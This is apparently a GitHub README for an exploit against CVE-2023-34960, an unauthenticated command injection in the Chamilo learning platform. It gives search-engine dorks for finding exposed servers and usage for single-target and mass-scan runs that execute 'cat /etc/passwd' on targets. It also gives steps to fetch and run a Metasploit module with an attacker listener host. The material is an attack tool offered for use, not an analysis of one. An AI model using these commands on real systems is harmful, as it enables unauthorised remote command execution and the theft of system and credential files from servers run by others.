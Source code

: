 # CVE-2023-34960
![](https://img.shields.io/static/v1?label=Product&message=Chamilo&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v1.11.*%20up%20to%20v1.11.18&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Command%20injection&color=red)



- Shodan dork:
```
http.component:"Chamilo"
```
- FOFA dork:
```
body="content=\"Chamilo 1"
```
## Install
```
pip install -r requirements.txt
```
## Usage
```
usage: exploit.py [-h] [-u URL] [-f FILENAME] [-c COMMAND] [-t THREADS]
                  [-o OUTPUT]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL address (without 'http://' prefix)
  -f FILENAME, --filename FILENAME
                        File containing URLs
  -c COMMAND, --command COMMAND
                        Command to execute (optional)
  -t THREADS, --threads THREADS
                        Maximum number of concurrent threads
  -o OUTPUT, --output OUTPUT
                        Output file for saving the results
# Single scan.
python3 exploit.py -u target_IP -c 'cat /etc/passwd'

# Mass scan.
python3 exploit.py -f list_ip.txt -c 'cat /etc/passwd'
```
## Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Chamilo CVE-2023-34960/chamilo_unauth_rce_cve_2023_34960.rb
```
```
cp chamilo_unauth_rce_cve_2023_34960.rb /usr/share/metasploit-framework/modules/exploits/linux/http/
```
```
msfdb reinit; msfconsole -q
```
```
use exploitsexploits/linux/http/chamilo_unauth_rce_cve_2023_34960.rb
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
